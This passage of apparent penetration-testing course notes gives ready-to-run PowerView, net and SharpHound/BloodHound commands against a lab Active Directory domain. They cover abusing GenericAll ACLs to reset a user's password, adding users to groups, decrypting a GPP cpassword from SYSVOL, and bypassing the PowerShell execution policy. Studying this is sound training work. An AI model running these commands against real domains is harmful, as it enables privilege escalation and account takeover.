    #list all permissions for the group  
    Get-ObjectAcl -Identity "Management Department" | Select-Object @{n='Identity';e={($_.SecurityIdentifier | Convert-SidToName)}}, ActiveDirectoryRights, AccessControlType   

    #List "GenericAll" permissions on the group
    Get-ObjectAcl -Identity "Management Department" | Where-Object {$_.ActiveDirectoryRights -eq "GenericAll"} | Select-Object @{n='Identity';e={($_.SecurityIdentifier | Convert-SidToName)}}, ActiveDirectoryRights
    ```
  - ❗Find ACLs "GenericAll"  
    - Find misconfigured ACLs accounts  
      `Find-InterestingDomainAcl | select identityreferencename,activedirectoryrights,acetype,objectdn | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"} | ft`
    - Change user domain password  
      `Set-DomainUserPassword -Identity <user> -AccountPassword (ConvertTo-SecureString 'NewP@ssw0rd!' -AsPlainText -Force`
    - List the machines that user has local admin rights  
      `Find-LocalAdminAccess -Credential (New-Object System.Management.Automation.PSCredential("CORP\robert",(ConvertTo-SecureString 'NewP@ssw0rd!' -AsPlainText -Force)))`  
     
  - ❗**Permissions and logged on Users**
    - enumerate all machines in the domain and check current user has local admin rights  
      `Find-LocalAdminAccess`
    - ACL
      `Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl`    
  - check any logged on users  
    `Get-NetSession -ComputerName files04 -Verbose`  
    `PS C:\Tools\PSTools> .\PsLoggedon.exe \\files04`  
- Service Principal Names (SPNs)  
  `setspn -L <iis_service>`  #list all Service Principal Names (SPNs) associated with a user or service account
- add new user to domain group  
  `net group "Management Department" stephanie /add /domain`  
  `net group "Management Department" stephanie /del /domain`
- Domain Shares
  - Find-DomainShare
    `PS C:\Tools> Find-DomainShare`  
  - Enumerate "SYSVOL" for policies and scripts
    ```
    PS C:\Tools> ls \\dc1.corp.com\sysvol\corp.com\
    PS C:\Tools> ls \\dc1.corp.com\sysvol\corp.com\Policies\
    kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"  #crack cpassword
    ```
  - List interesting files on shares  
    `PS C:\Tools> ls \\FILES04\docshare`  
- 🖥️ **BloodHound & SharpHound**
  - Import SharpHound script to memory
    ```
    powershell -ep bypass
    PS C:\Users\stephanie\Downloads> Import-Module .\Sharphound.ps1  
    ```
  - Extract the bloodhound json files.zip  
    `PS C:\Users\stephanie\Downloads> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"`  OR  
    `.\SharpHound.exe -c All`  
  - Start  BloodHound
    ```
    cd /home/kali/offsec/active_directory
    sudo ./bloodhound-cli install      
    ```
  - Login http://127.0.0.1:8080/ui/login (admin,Admin12345678!)
  - Upload the audit_xxx.zip http://127.0.0.1:8080/ui/administration/file-ingest (delete from database management first)  

